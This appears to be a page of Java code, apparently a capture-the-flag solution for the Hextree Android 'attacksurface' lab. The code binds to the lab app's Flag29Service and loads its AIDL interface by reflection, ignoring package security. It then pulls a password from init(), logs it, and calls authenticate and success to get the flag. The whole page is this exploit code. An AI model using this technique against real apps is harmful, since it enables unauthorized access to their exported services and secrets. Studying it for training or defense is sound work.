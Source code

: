 ##### Class loading 

```java
Intent send = new Intent();  
send.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag29Service");  
ServiceConnection serviceConnection4 = new ServiceConnection() {  
    @Override  
    public void onServiceConnected(ComponentName name, IBinder service) {  
        // Load the class dynamically  
        ClassLoader classLoader = null;  
        try {  
            classLoader = services.this.createPackageContext("io.hextree.attacksurface",  
                    Context.CONTEXT_INCLUDE_CODE | Context.CONTEXT_IGNORE_SECURITY).getClassLoader();  
            Class<?> iRemoteServiceClass;  
            // Load the AIDL interface class  
            iRemoteServiceClass = classLoader.loadClass("io.hextree.attacksurface.services.IFlag29Interface");  
            Class<?> stubClass = null;  
            for (Class<?> innerClass : iRemoteServiceClass.getDeclaredClasses()) {  
                if (innerClass.getSimpleName().equals("Stub")) {  
                    stubClass = innerClass;  
                    break;  
                }  
            }  
            // Get the asInterface method  
            Method asInterfaceMethod = stubClass.getDeclaredMethod("asInterface", IBinder.class);  
  
            // Invoke the asInterface method to get the instance of IRemoteService  
            Object iRemoteService = asInterfaceMethod.invoke(null, service);  
  
            // Call the init method and get the returned string  
            Method initMethod = iRemoteServiceClass.getDeclaredMethod("init");  
            String password = (String) initMethod.invoke(iRemoteService);  
            Log.d("Flag29Service", "Password: " + password);  
  
            // Call the authenticate method with the password  
            Method authenticateMethod = iRemoteServiceClass.getDeclaredMethod("authenticate", String.class);  
            authenticateMethod.invoke(iRemoteService, password);  
  
            // Call the success method  
            Method successMethod = iRemoteServiceClass.getDeclaredMethod("success");  
            successMethod.invoke(iRemoteService);  
  
  
        } catch (Exception e) {  
            Log.e("Flag29Service", "Error creating package context", e);  
        }  
    }  
  
    @Override  
    public void onServiceDisconnected(ComponentName name) {  
    }  
};  
  
bindService(send,serviceConnection4, Context.BIND_AUTO_CREATE);
```